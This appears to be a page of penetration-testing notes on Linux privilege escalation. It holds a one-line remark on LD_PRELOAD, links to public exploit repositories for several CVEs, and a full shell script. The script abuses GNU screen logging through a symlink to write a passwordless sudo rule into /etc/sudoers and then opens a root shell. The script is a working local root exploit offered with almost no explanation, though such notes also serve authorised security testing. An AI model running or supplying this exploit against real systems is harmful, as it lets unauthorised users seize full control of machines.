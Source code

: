 # Linux

### LD\_PRELOAD

_LD\_PRELOAD is unlikely to be useful for privilege escalation, due to the unusual configuration parameters that would need to be set to make exploitation possible._

{% embed url="https://www.bordergate.co.uk/ld_preload-exploitation/" %}

### CVE

* [https://github.com/LLfam/CVE-2024-1086](https://github.com/LLfam/CVE-2024-1086)
* [https://github.com/joeammond/CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034)
* [https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot](https://www.stratascale.com/vulnerability-alert-CVE-2025-32463-sudo-chroot)

```bash
#!/bin/sh

F=$(mktemp)
L=${HOME}/screen.log
T=/etc/sudoers
rm -rf $F $L
mkfifo $F
O=$(stat --printf="%s" $T)
echo "[+] spawning GNU screen"
screen -L -Logfile $L -dmS hax sh -c "cat $F"
while [ ! -f $L ]; do sleep 0.1; done
echo "[+] logfile appeared, doing hax"
rm $L
ln -s $T $L
P="${USER} ALL=(ALL) NOPASSWD:ALL"
(echo $P; for i in `seq 8192`; do echo; done) &gt; $F
if [ $(stat --printf="%s" $T) -gt $O ] ; then
        echo "[+] bl1ng bl1ng, we got it"
        sudo sh
else
        echo "[-] exploit failed :("
fi
rm -rf $F $L

```



